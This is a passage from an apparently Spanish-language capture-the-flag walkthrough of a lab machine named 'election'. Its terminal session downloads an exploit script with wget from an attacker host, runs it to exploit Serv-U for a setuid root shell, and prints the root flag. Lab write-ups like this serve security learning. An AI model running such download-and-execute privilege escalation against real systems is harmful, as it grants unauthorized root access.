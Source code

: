Compartimos el script con la máquina víctima, lo ejecutamos y somos root.

Listamos la root flag.

```bash
love@election:/tmp$ wget 10.11.12.10/47173.sh
--2025-03-12 01:34:39--  http://10.11.12.10/47173.sh
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1163 (1.1K) [text/x-sh]
Saving to: ‘47173.sh’

47173.sh                              100%[=======================================================================>]   1.14K  --.-KB/s    in 0s

2025-03-12 01:34:39 (242 MB/s) - ‘47173.sh’ saved [1163/1163]


love@election:/tmp$ chmod +x 47173.sh

love@election:/tmp$ ./47173.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Mar 12 01:34 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# id
uid=1000(love) gid=1000(love) euid=0(root) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
sh-4.4# cd /root
sh-4.4# ls
root.txt
sh-4.4# cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6
sh-4.4#
```

Hope it helps!
